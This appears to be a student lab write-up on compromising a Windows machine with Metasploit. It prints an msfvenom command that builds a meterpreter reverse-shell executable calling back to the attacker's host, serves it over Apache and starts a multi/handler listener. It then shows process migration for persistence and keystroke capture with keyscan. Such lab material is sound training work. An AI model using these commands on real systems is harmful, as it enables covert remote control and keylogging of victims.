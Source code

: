 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/8cfa1f24-947f-4a5f-b91b-3fd8a5aa8b07)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/531f5f7e-e5e9-47c1-96f9-42ed06865c5d)

copy the fun.exe into the apache /var/www/html folder

![3](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/aef02176-708a-4b26-b46e-068c69df4c63)

copy the fun.exe into the apache /var/www/html folder

![4](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/bb9737a9-4b59-45d4-8ee1-ac105a0e8dee)

Check the status of apache2

![5](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/e73a57b1-266b-4fd3-989f-f2fba75e1ded)

Invoke msfconsole:

![5](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/10652f15-7233-49e7-a50a-8f72e68fddda)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/6f553616-2db9-4823-b759-c3fb229f57c9)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![8](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/c8ad82b7-a478-464b-88d6-2f8d0840109c)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![9](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/31acefb4-b780-4d14-84f7-f2c30160b52d)

Bypass any warning boxes, double-click the file, and allow it to run.

![10](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/9e7cb0e3-a8c2-4578-97aa-d0d04007a097)

On kali give the command exploit

![11](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/1d873a7b-f9c1-4d8a-9272-e669e56e7a49)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![12](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/0e187c30-83f2-413b-a055-e228672d427b)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![13](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/6a5558e8-fb08-4339-861a-2103b6f8fd8b)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![14](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/0ecb9b64-f626-4f9a-a0de-a8ec0591fe08)

![15](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/566a36e7-9ed1-4063-a62d-547cd1de141e)

keyscan_dump Shows the keystrokes captured so far

![16](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/7a63ff7f-c2e5-42cf-a7ff-2184aebd5133)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
